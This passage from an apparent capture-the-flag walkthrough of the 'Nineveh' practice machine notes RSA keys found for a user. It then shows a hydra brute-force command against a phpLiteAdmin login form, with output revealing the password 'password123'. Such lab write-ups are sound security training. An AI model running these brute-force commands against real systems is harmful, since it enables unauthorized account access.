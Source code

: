 Bingo! It stores RSA keys for `amrois`!
But there's no use for now since ssh(22) port is not open.
Let's save this credential for now.

![](attachments/nineveh_4.png)

There are several exploits for "phpLiteAdmin v1.9", but it seems that all requires authentication.
Let's try brute-forcing again.

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:F=Incorrect password"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-24 06:27:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:F=Incorrect password
[STATUS] 467.00 tries/min, 467 tries in 00:01h, 14343932 to do in 511:56h, 16 active
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-24 06:29:54
```

The password found here is `password123`.
Let's try sign-in with this credential.
